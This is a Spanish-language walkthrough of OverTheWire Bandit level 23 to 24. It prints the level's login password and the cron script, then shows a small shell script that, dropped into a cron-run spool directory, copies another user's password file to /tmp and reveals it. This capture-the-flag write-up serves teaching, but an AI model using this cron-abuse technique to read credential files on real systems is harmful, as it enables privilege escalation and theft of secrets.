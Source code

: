 # Level23 -> level24

## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso

Host: **bandit.labs.overthewire.org** on port 2220

Username: **bandit23**

Password: **QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G**

## Solución

```bash
hone@Unidad03:~$ ssh bandit23@bandit.labs.overthewire.org -p 2220
```

```bash
bandit22@bandit.labs.overthewire.org's password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

```bash
bandit23@bandit:~$ ls -la /etc/cron.d
total 48
drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
drwxr-xr-x 110 root root 4096 Sep  8 12:09 ..
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23 13:49 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
```

```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

```bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

```bash
bandit23@bandit:~$ mkdir /tmp/nc    
```

```bash
bandit23@bandit:~$ cd /tmp/nc
```

```bash
bandit23@bandit:/tmp/nc$ echo "cat /etc/bandit_pass/bandit24 > /tmp/nc/password" > p.sh
```

```bash
bandit23@bandit:/tmp/nc$ chmod 777 p.sh 
```

```bash
bandit23@bandit:/tmp/nc$ touch password
```

```bash
bandit23@bandit:/tmp/nc$ chmod 666 password 
```

```bash
bandit23@bandit:/tmp/nc$ cp p.sh /var/spool/bandit24/foo
```

Tras esperar un minuto...

```bash
bandit23@bandit:/tmp/nc$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Notas adicionales

## Referencias

